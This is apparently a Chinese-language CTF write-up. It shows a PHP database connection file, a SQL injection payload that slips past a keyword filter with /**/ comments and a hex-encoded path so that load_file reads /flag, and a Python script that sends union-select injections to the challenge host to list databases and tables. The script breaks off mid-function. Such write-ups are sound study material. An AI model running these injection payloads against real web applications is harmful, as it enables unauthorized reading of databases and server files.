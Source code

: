 ```php
// dbConnect.php
<?php
$serve = '127.0.0.1';
$username = 'root';
$password = 'root';
$dbname = 'users';
$mysqli = new Mysqli($serve,$username,$password,$dbname);
if($mysqli->connect_error){
    die('connect error:'.$mysqli->connect_errno);
}
$mysqli->set_charset('UTF-8'); // 设置数据库字符集
```

读取根目录下flag，由于ban了`flag`，转十六进制即可

```sql
-1"union/**/select/**/1,hex(load_file(0x2f666c6167)),3"
```

`hex('/flag')=='0x2f666c6167'`

结束了



附上小脚本，虽然没啥用

```python
"""
-*- coding: utf-8 -*-
@File: exp.py
@Author: gyy
@Time: 3月 27, 2021
"""
import requests
import time


url = "http://ea4d13de-db0a-41e5-b303-a843bd51a27b.machine.dasctf.com/?query="

def req(payload):
    print(payload)
    res = requests.get(url+payload).content.decode('utf-8')
    if "Forbidden" in res:
        return "Forbidden"
    else:
        try:
            return res.split("<table border='1' width='600px' cellpadding='0' cellspacing='0'  align='center' style='margin-top: 20px; margin-left: 33%'>")[1]
        except:
            return "right"


def database():
    payload = "-1\"union select 1,database(),3\"".replace(" ", "/**/")
    res = req(payload)
    print(res)
# databases==========>users

def table():
    payload = "-1\"union select 1,(select group_concat(table_name) from information_schema.tables where table_schema like database()),3\"".replace(" ", "/**/")
    res = req(payload)
    print(res)
# tables==========>f1agdas,users

def columns():
```